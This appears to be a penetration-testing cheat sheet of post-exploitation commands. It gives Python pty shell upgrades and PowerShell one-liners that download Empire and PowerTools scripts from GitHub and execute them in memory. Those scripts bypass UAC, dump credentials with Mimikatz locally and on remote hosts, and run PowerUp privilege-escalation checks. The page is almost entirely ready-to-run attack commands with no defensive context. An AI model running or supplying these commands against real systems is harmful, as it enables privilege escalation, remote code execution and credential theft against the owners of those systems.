 ## Post Exploitation

### Upgrade to usable shell

* Find python version

```bash
which python
```

```bash
# Depending which python version
python -c 'import pty; pty.spawn("/bin/bash")' upgrade shell

python3 -c 'import pty; pty.spawn("/bin/bash")' upgrade shell
```

## Powershell Oneliners

* Invoke-BypassUAC and start PowerShell prompt as Administrator \[Or replace to run any other command]

```powershell
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'"
```

* Invoke-Mimikatz: Dump credentials from memory

```powershell
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
```

* Import Mimikatz Module to run further commands

```powershell
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"
```

* Invoke-MassMimikatz: Use to dump creds on remote host

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PewPewPew/Invoke-MassMimikatz.ps1');'$env:COMPUTERNAME'|Invoke-MassMimikatz -Verbose"
```

* PowerUp: Privilege escalation checks

```powershell
powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks”
```
